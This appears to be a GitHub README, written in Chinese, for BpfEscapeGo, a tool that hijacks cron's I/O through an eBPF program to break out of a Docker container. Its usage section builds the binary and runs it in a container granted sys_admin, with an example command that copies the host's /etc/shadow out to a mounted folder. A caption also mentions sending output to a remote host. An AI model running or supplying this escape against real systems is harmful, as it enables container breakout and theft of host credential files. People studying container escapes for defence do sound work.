 # BpfEscapeGo
## 主要功能

使用 ebpf 程序劫持 cron 的 io 读写 进行容器逃逸

## 使用方式

### 直接使用主机
```bash
make build
sudo ./bpfescapego
```

### 使用容器的方式
```bash
docker run -it --cap-add sys_admin -v `pwd`:/tmp  ubuntu
# copy `bpfescapego` binary to container
./bpfescapego "cat /etc/shadow > /tmp/hello"
```

下图是展示将输出重定向到远程主机的操作

![输出重定向到远程接收图片](https://github.com/awslshadowstar/BpfEscapeGo/assets/52888924/6039130a-b8f4-430f-a2e4-3485ffa5427e)

## 分发方式
使用github action自动分发